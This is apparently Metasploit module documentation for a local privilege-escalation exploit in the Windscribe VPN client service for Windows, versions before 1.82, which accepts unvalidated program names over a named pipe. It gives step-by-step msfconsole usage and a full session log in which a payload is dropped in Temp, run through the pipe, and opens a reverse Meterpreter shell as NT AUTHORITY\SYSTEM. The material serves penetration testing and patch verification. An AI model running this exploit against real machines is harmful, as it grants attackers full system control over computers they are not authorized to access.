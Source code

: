 ## Description

  The Windscribe VPN client application for Windows makes use of a
  Windows service `WindscribeService.exe` which exposes a named pipe
  `\\.\pipe\WindscribeService` allowing execution of programs with
  elevated privileges.

  Windscribe versions prior to 1.82 do not validate user-supplied
  program names, allowing execution of arbitrary commands as SYSTEM.


## Vulnerable Application

  This module has been tested successfully on [Windscribe](https://windscribe.com/)
  version 1.80 and 1.81 on Windows 7 SP1 (x64).

  Download:

  * https://assets.windscribe.com/desktop/win/Windscribe_1.80.exe
  * https://assets.windscribe.com/desktop/win/Windscribe_1.81.exe


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/windscribe_windscribeservice_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf > use exploit/windows/local/windscribe_windscribeservice_priv_esc 
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set session 1
  session => 1
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set verbose true
  verbose => true
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > check
  [*] The service is running, but could not be validated.
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(windows/local/windscribe_windscribeservice_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload (283 bytes) to C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe ...
  [*] Sending C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe to \\.\pipe\WindscribeService ...
  [+] Opened \\.\pipe\WindscribeService! Proceeding ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49365) at 2020-01-31 19:14:31 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : TEST
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```

